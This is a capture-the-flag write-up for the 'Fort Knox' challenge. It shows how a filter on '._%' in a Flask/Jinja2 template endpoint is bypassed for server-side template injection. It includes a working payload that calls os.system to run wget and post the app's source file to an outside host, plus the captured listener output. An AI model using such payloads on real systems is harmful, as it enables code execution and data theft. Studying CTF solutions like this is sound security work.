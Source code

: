 # Fort Knox 
>They say the [Fort Knox](http://104.248.237.208:5000/) is impenetrable, but as a friend of mine once said, give me ten brave men and I will conquer it!  
>Are you brave enough!  

This challenge was probably solved by everyone in an unintended way!
By visiting the page and viewing the source, we see the following comment:
```HTML
    <!--Source Code: /static/archive/Source -->
```
We get the application's source code and see this interesting piece of code:
```Python
@app.route("/ask", methods = ["POST"])
def ask():
    question = request.form["q"]
    for c in "._%":
        if c in question:
            return render_template("no.html", err = "no " + c)
    try:
        t = Template(question)
        t.globals = {}
        answer = t.render({
            "history": fort.history(),
            "credit": fort.credit(),
            "trustworthy": fort.trustworthy()
        })
    except:
        return render_template("no.html", err = "bad")
    return render_template("yes.html", answer = answer)
```

So this is jinja2 SSTI without "._%". This whitelist is too permissive to prevent RCE!
As we can see in [Jinja documentation](http://jinja.pocoo.org/docs/2.10/templates/), 

>You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]).
>The following lines do the same thing:  
>{{ foo.bar }}  
>{{ foo['bar'] }}

So ```[].__class__``` can become ```[]['__class__']``` and because we're dealing with strings, the underscores can become ```\x5f```. So we can get the flag with the following payload:
```
{{[]['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()['\x5f\x5fgetitem\x5f\x5f'](59)()['\x5fmodule']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['system']('wget xx\x2exx\x2exx\x2exx --post-file fort\x2epy')}}
```
"fort.py" file was disclosed from a line of the source code that called ```import fort```!

Result:
```
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.248.237.208] port 80 [tcp/http] accepted (family 2, sport 51242)
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 51.77.158.67
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 865

from flask import Flask, session

SECKEY = "some random key for signing 70657529378630738104827452603621"
FLAG = "ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}"
CORRECT_BEHAVIOUR = list(map(int, "34515465413625214253"))
PERFECT_CREDIT = sum([ x for x in range(len(CORRECT_BEHAVIOUR)) ])
```
There was more python code in that file, which hinted that this was an unintended sollution!
